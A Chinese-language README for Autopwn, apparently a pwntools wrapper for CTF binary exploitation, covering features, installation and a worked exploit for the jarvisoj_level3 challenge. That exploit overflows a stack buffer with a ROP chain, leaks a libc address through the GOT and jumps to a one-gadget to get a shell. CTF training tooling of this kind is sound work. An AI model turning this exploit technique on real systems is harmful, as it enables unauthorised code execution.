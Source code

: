# Autopwn

## 简介

Autopwn项目，致力于提供如下特性：

- 简化exp
- 对pwntools常用功能的更好的包装

目前已经实现的功能：
- 对自定义函数的包装（不完善）
- 使用命令行参数启动脚本，从而实现不同的功能（local run，local debug，remote run）
- 允许用户自定义debug时的gdb脚本，添加了对PIE程序仅使用偏移下断点的支持
- 允许用户自行提供函数封装，并将其添加为tubes的方法，已内置数个别名
- 允许用户更改elf文件的库查找路径与解释器路径（使用patchelf实现）
- 允许用户为当前的elf生成一个可修改的lief Binary对象
- 添加Ubuntu常用库的数据库（ld，libc，libdl）

## 效果图

- 自动生成配置文件
![](https://github.com/CTSinon/Autopwn/blob/master/screenshots/autoconf.gif)

- 搭配emacs的YASnippet插件一键生成exp框架
![](https://github.com/CTSinon/Autopwn/blob/master/screenshots/genexp.gif)

- 一键patchelf
![](https://github.com/CTSinon/Autopwn/blob/master/screenshots/autopatch.gif)

- 自带常用tube方法别名（如rl，sl，ru），一键运行（废话
![](https://github.com/CTSinon/Autopwn/blob/master/screenshots/run.gif)

- 无视PIE，自定义断点，一键调试
![](https://github.com/CTSinon/Autopwn/blob/master/screenshots/breakpoint.gif)

- 一键远程连接
![](https://github.com/CTSinon/Autopwn/blob/master/screenshots/remote.gif)

## 安装

### 依赖
- python 2.7 (environment)
- pwntools (module)
- pandas (module)
- lief (module)
- patchelf (application)

### 安装方法

1. `git clone https://github.com/CTSinon/Autopwn.git`
   
2. 将这一行添加到.bashrc中：
`alias gen='python path/to/gen.py`

3. 将autopwn文件夹添加到python的path中

4. 将LIBC文件夹中的ubuntu库放到你喜欢的位置

5. enjoy it!

### 关于lief模块的安装

lief官方已经在最新版的lief中抛弃了对python 2.7的支持，因此我们需要一个旧版本，在这里你可以下载到旧版本的egg包：

https://github.com/lief-project/LIEF/releases/download/0.9.0/lief-0.9.0-py2.7-linux.egg

然后使用easy_install来安装即可：

`easy_install lief-0.9.0-py2.7-linux.egg`

## 其他

### 栗子🌰

题目链接：https://buuoj.cn/challenges#jarvisoj_level3

```python
from pwn import *
from autopwn.core import pwn
from sys import argv

def leak(self, a):
    pass


# 该函数将会被动态添加到内置的一个类中
# 你可以自由的使用类属性（如当前elf对象）
# 代价仅仅是在参数中添加一个self
def exp(self, a):
    read_got = self.elf.got['read']
    # 这里elf对象是类属性
    write_got = self.elf.got['write']
    write_plt = self.elf.plt['write']
    read_plt = self.elf.plt['read']
    esp_c = 0x080482ee
    read_offset = self.lib[0].symbols['read']
    # lib同样是类属性，是一个存放下面指定的lib对应的elf对象的数组
    one_offset = 0x3a80c

    a.rl()
    # 这是recvline的别名，你可以在less_tube.py中定义你自己的别名
    payload = 'a' * 0x88
    payload += 'a' * 4
    payload += p32(write_plt) + p32(esp_c)
    payload += p32(1) + p32(read_got) + p32(4)
    payload += p32(read_plt) + p32(write_plt)
    payload += p32(0) + p32(write_got) + p32(4)

    a.sl(payload)

    read_addr = unpack(a.recvn(4), 'all')
    a.lg("Got read addr: ", read_addr)
    one_addr = read_addr + one_offset - read_offset

    a.send(p32(one_addr))
    
# 该函数用于getshell之后获取flag
# 一般的题目这样就好
def get_flag(self, a):
    a.interactive()
    return

pwn.ctf(argv, exp, get_flag,
        bp=0x080484a6,
        # 指定断点，开启PIE时使用偏移就好
        inter='../libc6-i386_2.23-0ubuntu10_amd64/ld-2.23.so',
        # 如果你要patch libc的话，一定要指定相应的ld
        needed=['../libc6-i386_2.23-0ubuntu10_amd64/libc-2.23.so'])
        # needed是一个数组，你可以使用它来替换dynamic段中所用needed项（包括大部分动态链接库）
```

### 目录结构

```
.
├── \
├── autopwn
│   ├── awd                       # awd框架，未实现
│   │   ├── attacker.py           # =-=
│   │   ├── attack.py             # =-=
│   │   ├── get_ip.py             # 获取目标列表
│   │   └── __init__.py
│   ├── core
│   │   ├── classes.py            # 存放核心类
│   │   ├── __init__.py
│   │   └── pwn.py                # 主文件
│   ├── ctf
│   │   ├── attack.py             # 主文件
│   │   ├── __init__.py
│   │   ├── less_tube.py          # 为tube类添加更多特性
│   │   └── stack.py              # 栈布局可视化（已废弃）
│   └── __init__.py
├── autopwn.conf                  # 配置文件模版
├── gen.py                        # 生成配置文件
├── README.md
└── test
    ├── flag
    └── payload.py
```

### 碎碎念
- 感谢cnitlrt师傅的支持
- 作者没有专业研究过python这门语言，所以脚本写得一言难尽。设计模式之类的更是没怎么研究过。希望各路大神能提出更好的建议，添加更方便的功能，大家一起进步呀 (๑•̀ㅂ•́)و✧ 
